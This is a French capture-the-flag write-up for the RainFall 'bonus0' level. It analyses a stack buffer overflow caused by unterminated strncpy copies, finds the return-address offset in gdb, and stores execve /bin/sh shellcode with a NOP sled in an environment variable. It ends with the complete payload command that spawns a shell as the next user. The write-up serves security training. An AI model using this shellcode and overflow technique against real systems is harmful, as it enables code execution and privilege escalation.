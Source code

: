 Soluce

Payload : 
---------------------------------------------------------------------------------------------------
(python -c 'print("A" * 4095 + "\n" + "A" * 9 + "\x1d\xf3\xff\xbf" + "A" * 7)') > payload; cat payload - | ./bonus0
---------------------------------------------------------------------------------------------------


En observant le code source nous pouvont constater que 2 fonction son presente :

La Fonction pp :

- Elle prend en argument une string de destination
- Elle declare 2 string d'environ une taille de 20 octet, S1 et S2
- Elle appel deux fois la fonction p en lui passant toujour un - et a la suite les 2 string declarer precedement
- Puis elle copie S1 dans la string de destination  grace a strcpy
- Elle ajoute un espace a la fin de destination
- Et enfin elle concatene la string de destination avec S2 grace a strcat

La fonction p :

- Elle prend 2 argument une string de destination et une string qui servira de prompt
- Elle declare un buffer d'une taille de 4104 octet
- Elle affiche sur l'entree standard la string qui stock le prompt
- Elle lis sur l'entree standard 4096 charactere maximul et stock le tout dans le buffer 
- Elle cherche un \n dans le buffer et le remplace par un \0 grace a strchr
- Et enfin elle copie les 20 premiere characteres dans dest grace a strncpy


Maintenant on peu constater plusieur chose dans ce code, deja si les string qui sont entree dans p depasse les 20 charactere elle sont copier sans \0 donc quand strcpy et strcat sont appeler cela de overwritte des registre dans la stack et pottentiellement de segfault, testons :

bonus0@RainFall:~$ gdb ./bonus0 
(gdb) b main
Breakpoint 1 at 0x80485a7
(gdb) run
Starting program: /home/user/bonus0/bonus0 

Breakpoint 1, 0x080485a7 in main ()
(gdb) n
Single stepping until exit from function main,
which has no line number information.
 - 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7A
 - 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7A
Aa0Aa1Aa2Aa3Aa4Aa5AaAa0Aa1Aa2Aa3Aa4Aa5Aa��� Aa0Aa1Aa2Aa3Aa4Aa5Aa���
0x41336141 in ?? ()

On peu constater plusieur chose, deja cela segfault apres avoir puts, on peu voir que pour s1 equivaut a s1 + s2 donc cela overwrite bien, maintenant voyons voir l'etat des registre en utilisant 2 string differente pour deviner ou est notre offset :

(...)
 - 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7A
 - 
Da0Da1Da2Da3Da4Da5Da6Da7D
Aa0Aa1Aa2Aa3Aa4Aa5AaDa0Da1Da2Da3Da4Da5Da��� Da0Da1Da2Da3Da4Da5Da���
0x44336144 in ?? ()
(gdb) info r
eax            0x0      0
ecx            0xffffffff       -1
edx            0xb7fd28b8       -1208145736
ebx            0xb7fd0ff4       -1208152076
esp            0xbfffef50       0xbfffef50
ebp            0x32614431       0x32614431
esi            0x0      0
edi            0x0      0
eip            0x44336144       0x44336144
eflags         0x200286 [ PF SF IF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33   

44336144 -> D3aD -> Da3D -> 9 in Da0Da1Da2Da3Da4Da5Da6Da7D

On peu voir que EIP est overwritte a l'offset 9 de S2, on peu en deduire que l'on on a seulment 11 octet pour notre placer du code arbitraire car l'on a seulement 20 octet qui seront copier dans s1 et 9 octet setont utiliser pour du padding, donc ret to libc est impossible car il coute 12 octet, un shellcode est possible mais seulement si il utilise que 11 octet le plus simple reste de passer par un shellcode stocker dans notre variable d'environnement.

export SHELLCODE=$(python -c 'print("\x90" * 2000 + "1\xc0\xb0\xbe\xcd\x801\xc91\xd2Qhn/shh//bi\x89\xe3j\x0bX\xcd\x80")')

Recuperont l'adresse de notre shellcode dans le program :

(...)
Breakpoint 1, 0x080485a7 in main ()
(gdb) call (char *) getenv("SHELLCODE")
$1 = 0xbffff129 "\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220"(...)

On a mis 2000 de nop sled pour etre plus precis dans notre payload, on va ajouter a notre adresse du shellcode 500 ce qui va faire :

bffff129 + 500 = bffff31d

Maintenant pour faire executer notre payload, il faudra passer par un fichier cependant 2 entree son attendu et il ne sera pas possible de juste faire un \n dans notre fichier car, il ne stoppera pas le premier read, ce qu'on va faire c'est que l'on va ecrire sur l'entree standard 4095 caractere + un \n pour ne pas segfault dans le strchr, ce qui va avoir pour effet de stopper le premier read, ensuite on mettra notre padding de 9 l'adresse de au milieu de notre nop sled et enfin les 7 caractere supplementaire pour faire segfault puts, ce qui aura pour effet d'acceder a notre shellcode et l'executer.


Recap :

[Padding de 4095] + ["\n" Pour ne pas segfault lors de strchr] + [Padding de 9] + [Adrresse dans le nop sled] + [Padding pour segfault]

bonus0@RainFall:~$ (python -c 'print("A" * 4095 + "\n" + "A" * 9 + "\x1d\xf3\xff\xbf" + "A" * 7)') > payload; cat payload - | ./bonus0
 - 
 - 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAA���AAAAAAA��� AAAAAAAAA���AAAAAAA���
whoami
bonus1